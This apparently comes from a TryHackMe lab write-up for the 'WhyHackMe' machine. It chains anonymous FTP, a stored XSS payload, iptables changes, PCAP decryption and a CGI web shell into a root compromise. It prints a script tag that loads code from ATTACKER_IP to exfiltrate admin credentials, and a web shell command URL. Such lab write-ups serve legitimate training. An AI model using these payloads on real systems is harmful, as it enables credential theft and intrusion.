




# WhyHackMe - TryHackMe Writeup

## Port Enumeration

Initial Nmap scan revealed the following open ports:

``` bash
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
80/tcp    open     http
41312/tcp filtered unknown
```

## FTP Enumeration

The FTP server allowed anonymous login.



Inside the FTP share, a file named `update.txt` was found with the
following contents:

``` txt
Hey I just removed the old user mike because that account was compromised and for any of you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or people with access to the common account. 
- admin
```

This suggests that credentials are stored locally on the web server and
might be accessible through a server-side vulnerability.

## Directory Enumeration

Using directory brute-forcing, the following endpoints were discovered:

``` bash
assets                  [Status: 301]
blog.php                [Status: 200]
config.php              [Status: 200]
index.php               [Status: 200]
login.php               [Status: 200]
logout.php              [Status: 302]
register.php            [Status: 200]
```

## Initial Access - XSS

The application allows users to register and post comments. Since the
admin is said to review comments, a stored XSS attack was attempted to
steal the credentials.

A malicious payload was inserted into the username field:

``` html
<script src="http://ATTACKER_IP:9000/exif.js"></script>
```

A simple HTTP server was started to host the JavaScript file:

``` bash
python -m http.server 9000
```

The script [exif.js](scripts/exif.js) exfiltrates sensitive data once executed by the
admin's browser.

After some time, the admin viewed the comment and the credentials were
received encoded in Base64.



## SSH Access

After decoding the credentials, SSH access was obtained.

``` bash
ssh user@target_ip
```

The user flag was found in the home directory.

The user had sudo privileges over `iptables`, although no direct
privilege escalation vector was immediately available.

## Further Investigation

Inside `/opt`, a note and a PCAP file were discovered.

### urgent note

``` txt
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try to remove them, they wont, even though I am root. Please go through the pcap file in /opt and help me fix the server. And I temporarily blocked the attackers access to the backdoor by using iptables rules. The cleanup of the server is still incomplete I need to start by deleting these files first.
```

The PCAP showed most traffic going to port `41312`, which was currently
blocked.

Firewall rules were inspected and modified:

``` bash
sudo iptables -nL --line-numbers
sudo iptables -D INPUT 1
sudo iptables -I INPUT 1 -p tcp --dport 41312 -j ACCEPT
```

This revealed an Apache service running on port 41312, but access
returned a *403 Forbidden*.

## PCAP Decryption

To decrypt HTTPS traffic, the Apache private key was located:

``` bash
/etc/apache2/certs/apache.key
```

This key was loaded into Wireshark:



After decryption, the following request was observed:

``` bash
/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id
```

This indicated the presence of a web shell.

## Privilege Escalation

Using the discovered web shell, a reverse shell was generated, granting
access as `www-data`.

The `www-data` user had passwordless sudo access, allowing full root
compromise.



## Conclusion

This machine demonstrated multiple real-world vulnerabilities:

-   Anonymous FTP access
-   Stored XSS
-   Poor firewall configuration
-   Exposed private keys
-   Insecure CGI backdoor
-   Misconfigured sudo permissions

Chaining these issues together resulted in full system compromise.
